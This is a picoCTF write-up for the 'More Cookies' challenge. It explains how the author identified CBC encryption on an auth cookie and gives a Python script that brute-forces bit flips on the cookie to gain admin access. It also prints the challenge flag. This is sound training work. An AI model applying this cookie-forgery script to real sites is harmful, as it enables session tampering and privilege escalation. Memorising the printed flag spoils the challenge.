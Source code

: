 # More Cookies
Author: dch0017

## Challenge Description
I forgot Cookies can Be modified Client-side, so now I decided to encrypt them!

## Accessing Site
First we head to the site and we are greeted by this: </br>
![site](./website.png)
</br>

A quick runthrough of the sources on the page doesn't give us anything interesting.

There is a sole ```Reset``` button on the page. Let's open up our network tools (Chrome for me) and see what actually happens when we hit the button.

## Requests and Cookies
<br>
![requests](./requests.png)
</br>

The reset button pushes a GET request to ```http://mercury.picoctf.net:15614/reset```, and in turn our token ```auth_name``` is cleared.</br>

Then a GET request is made to ```http://mercury.picoctf.net:15614/``` and we get back a new token, again named ```auth_token```. After we get this we are redirected to the site above.</br>

Our initial cookie looks like this: ```auth_name=eStwQ0NzWUhZNEM2blgvUWE2ZXl1U05vQ1I3Rk0xZVFOZ2JrOHgxR1hVaXlUSkFrbzZvWDRwR040c044eGhJNDN2ODUxYlZpKzQ1L0k1VFZmbkZUanA2R0ttSEhhRXhOWm5velZFOGUrNDF0TXk3eVdQUk9KdHIrRTZ4M0hiYmY=```

Attempting to decode from Base64, does not give us anything useful as the string is encrypted. 

## Encrypted Cookie
We know the cookie is encrypted and this is where I got stuck. So I went to hint 1 and it pointed me towards this Wikipedia article on [homomorphic encryption](https://en.wikipedia.org/wiki/Homomorphic_encryption).

From my understanding of it, if you have an encrypted string and were to do some calculations or change values on the encrypted string it would mess up your plaintext wildly. With homomorphic encryption, you can perform mathematical calculations on an encrypted text that used homomorphic encryption and it would be equally changed in plaintext. 

## Cipher-Block Chaining
Based off the letters CBC being capitalized weirdly in the description, we can infer that Cipher-Block Chaining (CBC) is being used. More on CBC [here](http://en.wikipedia.org/wiki/Block_cipher_mode_of_operation). 

More importantly, is that CBC is vulnerable to a ```bitflip``` attack. This is changing a byte in ciphertext and in turn editing the plaintext. A very good write up on the attack is on this page from [InfoSec Institute](https://resources.infosecinstitute.com/topic/cbc-byte-flipping-attack-101-approach/).


## Tie it together
So how do those two things affect this challenge? Well if we know that we have an encrypted string (that can have operations performed on it), and we know it is vulnerable to a bitflip attack, then there must be an indicator in the cookie that represents us being an admin or not. It could be ```admin:0``` for a regular user and ```admin:1`` for an admin. All we need to do is get that numerical value changed, but we don't know where that value lies in our cookie.

## Writing a script
</br>
The basis of this script come from user, kelalaka153 on [GitHub](https://github.com/kelalaka153/CBC-Bit-Flipping-Attack)

In short, this script will grab a cookie from the site, run the cookie through the bitFlip function which XOR's the current position in the list to a bit 1-8. 
```python
from base64 import b64decode, b64encode
import requests

CTF_PAGE = "http://mercury.picoctf.net:15614/"

session = requests.Session()
session.get(CTF_PAGE)
encrypted_cookie = session.cookies["auth_name"]

def bitFlip( pos, bit, data):
    raw = b64decode(b64decode(data).decode())

    list1 = bytearray(raw)
    list1[pos] = list1[pos] ^ bit
    raw = bytes(list1)
    return b64encode(b64encode(raw)).decode()



for i in range(len(encrypted_cookie)):
    for j in range(8):
        bitflipped_cookie = bitFlip(i, j, encrypted_cookie)
        request = requests.get(CTF_PAGE, cookies={"auth_name": bitflipped_cookie})
        if "picoCTF{" in request.text:
            print(request.text)

```

### Flag
and after some time we get our cookie printed out:

```
picoCTF{cO0ki3s_yum_a9a19fa6}
```